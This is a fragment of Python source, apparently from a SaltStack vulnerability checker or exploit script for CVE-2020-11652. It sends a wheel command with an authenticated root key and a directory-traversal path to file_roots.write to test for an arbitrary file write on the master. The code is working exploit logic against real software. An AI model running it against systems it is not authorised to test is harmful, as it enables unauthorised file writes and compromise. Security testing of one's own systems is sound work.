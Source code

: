       try:
        rets = channel.send(msg, timeout=3)
      except salt.exceptions.SaltReqTimeoutError:
        print("TIMEOUT")
      except:
        print("ERROR")
        raise
      else:
        if debug:
          print()
          print(rets)
        if rets['data']['return']:
          print("YES")
        else:
          print("NO")

    def check_CVE_2020_11652_write1(debug, channel, root_key):
      print("[+] Checking if vulnerable to CVE-2020-11652 (write1)... ", end='')
      sys.stdout.flush()

      # try read file
      msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.write',
        'path': '../../../../../../../../tmp/salt_CVE_2020_11652',
        'data': 'evil',
        'saltenv': 'base',
      }

      try:
        rets = channel.send(msg, timeout=3)
      except salt.exceptions.SaltReqTimeoutError:
        print("TIMEOUT")
      except:
        print("ERROR")
        raise
      else:
        if debug:
          print()
          print(rets)

        pp(rets)
        if rets['data']['return'].startswith('Wrote'):
          try:
            os.remove('/tmp/salt_CVE_2020_11652')
          except OSError:
            print("Maybe?")
          else:
            print("YES")
        else:
          print("NO")
